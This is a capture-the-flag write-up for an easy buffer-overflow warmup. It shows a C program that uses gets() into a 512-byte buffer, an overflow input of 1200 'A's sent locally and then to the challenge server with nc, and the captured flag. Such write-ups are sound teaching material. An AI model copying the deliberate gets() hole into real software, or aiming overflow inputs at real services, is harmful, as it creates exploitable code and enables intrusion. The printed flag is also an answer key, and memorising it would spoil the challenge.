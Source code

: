 # Butter Overflow
easy | warmups | 50 points  

>Can you overflow this right?

This is a very simple buffer overflow challenge. There are three files:
- a makefile
- the source code 
- the resulting executable file

We were also given an server that we could connect to using `nc`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <sys/stat.h>

void give_flag();

void handler(int sig) {
    if (sig == SIGSEGV)
        give_flag();
}

void give_flag() {
    char *flag = NULL;
    FILE *fp = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Could not open flag file.");
        exit(EXIT_FAILURE);
    }

    fstat(fileno(fp), &sbuf);

    flag = malloc(sbuf.st_size + 1);
    if (flag == NULL) {
        puts("Failed to allocate memory for the flag.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    flag[sbuf.st_size] = '\0';

    puts(flag);

    fclose(fp);
    free(flag);

    exit(EXIT_SUCCESS);
}

int main() {
    char buffer[0x200];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    signal(SIGSEGV, handler);

    puts("How many bytes does it take to overflow this buffer?");
    gets(buffer);

    return 0;
}
```

The source code shows the buffer is 512 chars long (I initially didn't see the `0x` before the 200 and thought it was 200 chars long), and the flag is printed when a segmentation fault takes place (`SIGSEGV`), denoted by the `handler()` function.

As I initially saw the buffer as 200 chars, I tried sending inputs with more than 200 chars, and that clearly did not work.

After sometime, I sent an input with a very high character length after looking up some resources. It caused a segmentation fault!

```
$ python -c 'print "A"*1200' > file
$ chmod +x butter_overflow
$ cat file | ./butter_overflow
How many bytes does it take to overflow this buffer?
Could not open flag file.
```

The flag file did not open as there is no flag file on my machine. Since the input worked locally, I sent the same input to the server for this challenge, and received the flag!

```
$ cat file | nc challenge.ctf.games 30054
How many bytes does it take to overflow this buffer?
flag{72d8784a5da3a8f56d2106c12dbab989}
```

Flag: `flag{72d8784a5da3a8f56d2106c12dbab989}`